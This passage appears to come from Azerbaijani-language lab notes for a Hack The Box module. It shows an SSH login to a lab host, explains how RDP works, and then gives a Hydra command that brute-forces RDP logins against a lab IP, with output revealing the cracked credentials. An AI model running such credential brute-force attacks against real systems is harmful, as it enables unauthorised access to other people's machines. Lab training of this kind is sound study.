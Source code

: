 SSH protokolu vasitəsilə sistemə daxil olmaq üçün, əksər Linux paylamalarında defolt olaraq mövcud olan OpenSSH klientindən istifadə edə bilərik.

```bash
nijatmansimov@htb[/htb]$ ssh user@10.129.42.197
The authenticity of host '10.129.42.197 (10.129.42.197)' can't be established.
ECDSA key fingerprint is SHA256:MEuKMmfGSRuv2Hq+e90MZzhe4lHhwUEo4vWHOUSv7Us.


Are you sure you want to continue connecting (yes/no/[fingerprint])? yes

Warning: Permanently added '10.129.42.197' (ECDSA) to the list of known hosts.


user@10.129.42.197's password: ********

Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

user@WINSRV C:\Users\user>
```

-----

## Remote Desktop Protocol (RDP)

Microsoft-un **Remote Desktop Protocol** (**RDP**) defolt olaraq **TCP port 3389** vasitəsilə Windows sistemlərinə uzaqdan girişi təmin edən bir şəbəkə protokoludur. RDP həm istifadəçilərə, həm də administratorlara/dəstək heyətinə bir təşkilat daxilində Windows hostlarına uzaqdan giriş imkanı verir. Remote Desktop Protocol bir əlaqə üçün iki iştirakçını müəyyənləşdirir: əsl işin baş verdiyi terminal serveri və terminal serverinin uzaqdan idarə edildiyi terminal klienti. Şəkil, səs, klaviatura və göstərici cihazının mübadiləsinə əlavə olaraq, RDP həmçinin terminal serverinin sənədlərini terminal klientinə qoşulmuş bir printerdə çap edə bilər və ya orada mövcud olan yaddaş mühitlərinə girişi təmin edə bilər. Texniki olaraq, RDP IP yığınında bir tətbiq qat protokoludur və məlumat ötürülməsi üçün TCP və UDP istifadə edə bilər. Protokol müxtəlif rəsmi Microsoft tətbiqləri tərəfindən istifadə olunur, lakin bəzi üçüncü tərəf həllərində də istifadə edilir.

### Hydra - RDP

RDP brute-force hücumu üçün də **Hydra**-nı istifadə edə bilərik.

```bash
nijatmansimov@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
